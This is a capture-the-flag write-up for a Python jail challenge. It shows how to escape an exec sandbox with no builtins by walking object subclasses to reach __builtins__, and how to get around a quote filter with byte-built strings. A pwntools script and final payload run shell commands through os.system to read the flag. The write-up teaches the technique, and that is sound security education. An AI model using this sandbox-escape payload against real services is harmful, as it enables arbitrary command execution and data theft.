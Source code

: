 # Build yourself in

Challenge text:
```
The extraterrestrials have upgraded their authentication system and now only them are able to pass. Did you manage to learn their language well enough in order to bypass the the authorization check?
```

I connected to the challenge using netcat, and it appeared to be a Python prompt. As a test I sent `a`
```bash
$ nc 188.166.156.174 30022
3.8.9 (default, Apr 15 2021, 05:07:04) 
[GCC 10.2.1 20201203]

[*] Only 👽 are allowed!

>>> a
Traceback (most recent call last):
  File "/app/build_yourself_in.py", line 16, in <module>
    main()
  File "/app/build_yourself_in.py", line 13, in main
    exec(text, {'__builtins__': None, 'print':print})
  File "<string>", line 1, in <module>
TypeError: 'NoneType' object is not subscriptable
``` 
In the traceback we see the line that executes our code; `exec(text, {'__builtins__': None, 'print':print})`. This line pretty much means that we don't have access to any of the [builtin functions](https://docs.python.org/3.8/library/functions.html), and the only function we can execute is `print()`. After a bit more experimenting, I also realize that quotes are not allowed, so we somehow have to bypass that as well.

In Python, there's both the builtins method, and `__builtins_`. In the [docs for the builtins methods](https://docs.python.org/3/library/builtins.html) we see the line:
> As an implementation detail, most modules have the name `__builtins__` made available as part of their globals.

This means that we can access `__builtins__` by accessing a module's globals. In pyjails, there are multiple common ways to get ahold of a module's globals. By using internal method calls in Python, we can enumerate and find a module that has globals, in our example; `().__class__.__bases__[0].__subclasses__()[94].__init__.__globals__`.

```py
>>> ().__class__
<class 'tuple'>
>>> ().__class__.__bases__
(<class 'object'>,)
>>> ().__class__.__bases__[0].__subclasses__()
[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, ...
>>> ().__class__.__bases__[0].__subclasses__()[94]
<class '_frozen_importlib_external.FileLoader'>
>>> ().__class__.__bases__[0].__subclasses__()[94].__init__
<function FileLoader.__init__ at 0x7faafdf91af0>
>>> ().__class__.__bases__[0].__subclasses__()[94].__init__.__globals__
{'__name__': 'importlib._bootstrap_external', '__doc__': 'Core implemen ...
```

Once we have access to the globals, we can access `__builtins__` module with: `...__globals__["__builtins__"]`. However, a new problem arises, we can't use quotes. To bypass this we can access the `bytes` class with the line `().__class__.__base__.__subclasses__()[6]`. With the bytes class we can craft strings like so; `bytes([95, 95, 98, 117, 105, 108, 116, 105, 110, 115, 95, 95]).decode()`, which is the same as `"__builtins__"`

After accessing builtins, we can access `__import__` to import `os`, and then execute shell commands using `os.system()`. I wrote a Python script to craft the full payload.
```py
from pwn import remote

cmd = "cat f*"

def c(string):
    string = ",".join([str(ord(x)) for x in string])

    # __builtins__ -> 95,95,98,117,105,108,116,105,110,115,95,95
    print(string)

    built = f"().__class__.__base__.__subclasses__()[6]([{string}]).decode()" # bytes([list of bytes]).decode()
    return built

payload = f"().__class__.__bases__[0].__subclasses__()[94].__init__.__globals__[{c('__builtins__')}][{c('__import__')}]({c('os')}).system({c(cmd)})"
# ().__class__.__bases__[0].__subclasses__()[94].__init__.__globals__["__builtins__"]["__import__"]("os").system("cat f*")

print(payload)

# connect to the server and send the payload
io = remote("188.166.156.174", 30022)
io.recvuntil(">>> ")
io.sendline(payload)
io.interactive()
```
The final payload is
```py
().__class__.__bases__[0].__subclasses__()[94].__init__.__globals__[().__class__.__base__.__subclasses__()[6]([95,95,98,117,105,108,116,105,110,115,95,95]).decode()][().__class__.__base__.__subclasses__()[6]([95,95,105,109,112,111,114,116,95,95]).decode()](().__class__.__base__.__subclasses__()[6]([111,115]).decode()).system(().__class__.__base__.__subclasses__()[6]([99,97,116,32,102,42]).decode())
```
After running the script, we get the flag:
```
$ py solve.py 
[+] Opening connection to 188.166.156.174 on port 30022: Done
[*] Switching to interactive mode
CHTB{n0_j4il_c4n_h4ndl3_m3!}
```
